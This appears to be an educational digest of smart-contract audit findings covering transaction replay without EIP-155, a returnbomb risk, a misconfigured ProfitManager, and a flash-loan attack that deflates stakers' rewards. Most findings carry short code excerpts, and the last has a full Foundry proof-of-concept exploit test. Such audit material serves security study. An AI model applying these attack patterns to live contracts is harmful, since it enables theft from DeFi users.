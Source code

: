 # ETAAcademy-Adudit: 1. Dos

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DOS</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>dos</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] EIP-155 is not enforced, allowing attackers/malicious operators to profit from replaying transactions

### Absence of enforcement of EIP-155

- Summary: Attackers and malicious operators profit from replaying transactions due to the absence of enforcement of **`EIP-155`**, which prevents replay attacks by including the chain ID in the transaction's signature.

- Impact & Recommendation: Attackers can replay transactions from networks not protected by EIP-155, while operators can replay early user transactions from other EVM networks to collect gas fees or profit directly.
  <br> 🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/882) & [Report](https://github.com/code-423n4/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

                  let should_check_chain_id = if matches!(
                    common_data.transaction_type,
                    TransactionType::LegacyTransaction
                ) && common_data.extract_chain_id().is_some()
                {
                    U256([1, 0, 0, 0])
                } else {
                    U256::zero()
                };
    pub fn extract_chain_id(&self) -> Option<u64> {
        let bytes = self.input_data()?;
        let chain_id = match bytes.first() {
            Some(x) if *x >= 0x80 => {
                let rlp = Rlp::new(bytes);
                let v = rlp.val_at(6).ok()?;
                PackedEthSignature::unpack_v(v).ok()?.1?
            }

  ```

  </details>

## 2. [Low] CoreRef::emergencyAction is susceptible to returnbomb attack

### Lack of assembly to handle returned data

- Summary: **`Emergency()`** lack of assembly to handle returned data leaves it vulnerable to returnbomb attacks, especially when interacting with untrusted external contracts.

- Impact & Recommendation: Consider using the ExcessivelySafeCall library or assembly to mitigate the vulnerability.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    /// @notice due to inflexibility of current smart contracts,
    /// add this ability to be able to execute arbitrary calldata
    /// against arbitrary addresses.
    /// callable only by governor
    function emergencyAction(Call[] calldata calls)
        external
        payable
        onlyCoreRole(CoreRoles.GOVERNOR)
        returns (bytes[] memory returnData)
    {
        returnData = new bytes[](calls.length);
        for (uint256 i = 0; i < calls.length; i++) {
            address payable target = payable(calls[i].target);
            uint256 value = calls[i].value;
            bytes calldata callData = calls[i].callData;
            (bool success, bytes memory returned) = target.call{value: value}(callData);
            require(success, "CoreRef: underlying call reverted");
            returnData[i] = returned;
        }
    }

  ```

  </details>

## 3. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### ProfitManagers in different markets

- Summary: In GuildToken.sol, setting profitManager in the constructor causes problems as different markets have different ProfitManagers. Calling `notifyPnL()` with negative values from other term types triggers `notifyGaugeLoss()`, leading to reverts because the caller differs from the constructor-set ProfitManager.

- Impact & Recommendation: In GuildToken.sol, ProfitManager should be dynamically called to accommodate different ProfitManagers for each market.
  <br> 🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1001) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testNotifyPnLCannotBeCalledWithNegative() public {
        // Show that for the initial gUSDC term there is no problem.
        credit.mint(address(profitManager), 10);
        profitManager.notifyPnL(term, -1);
        creditWETH.mint(address(profitManagerWETH), 10);
        vm.expectRevert("UNAUTHORIZED");
        profitManagerWETH.notifyPnL(termWETH, -1);
    }

  ```

  </details>

## 4. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### Staking and unstaking in the same block

- Summary: A borrower initiates a loan with the minimum amount in a term without mandatory partial repayment and transfers the funds to `EXPLOITER` after interest accrual. `EXPLOITER` then utilizes a flash loan to stake the amount into the same term via SurplusGuildMinter, repays the original loan, triggering `notifyPnL()`, which reduces rewards for other Guild holders by updating the `_gaugeProfitIndex`. Finally, `EXPLOITER` unstakes and returns the flash loan.

- Impact & Recommendation: To prevent attackers from instantly accumulating rewards without being long-term stakeholders like others in the system, several protective measures can be implemented. These include disallowing staking and unstaking in the same block, introducing staking/unstaking fees, or implementing a "warm-up period" during which stakers are unable to accumulate interest.
  <br> 🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/994) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract DeflateGuildHoldersRewardsUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private ALICE = makeAddr("alice");
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        Core private core;
        ProfitManager private profitManagerUSDC;
        CreditToken gUSDC;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManagerUSDC));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(termUSDC, "termUSDC");
        }
        function testGuildHoldersRewardsWithoutEXPLOITER() public {
            // 3 users borrow gUSDC and stake them into the gUSDC term
            // In reality there may be more users, but for testing purposes, three are sufficient.
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gUSDC.mint(address(profitManagerUSDC), interest);
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("------------------------------BEFORE ATTACK------------------------------");
            console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        function testGuildHoldersRewardsAfterEXPLOITER() public {
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

            console.log("-------------------------------AFTER ATTACK-------------------------------");
            console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
            // EXPLOITER gets a flashloan.
            gUSDC.mint(EXPLOITER, 10_000_000e18);
            console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 10_000_000e18);
            sgmUSDC.stake(termUSDC, 10_000_000e18);
            console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

            sgmUSDC.getRewards(EXPLOITER, termUSDC);
            console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
            console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
            //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termUSDC, 10_000_000e18);
            vm.stopPrank();
            console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));
            // NOTE: EXPLOITER repays the flash loan here.
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
        function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
            uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
            uint256 YEAR = 31557600;
            interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
        }
    }

  ```

  </details>
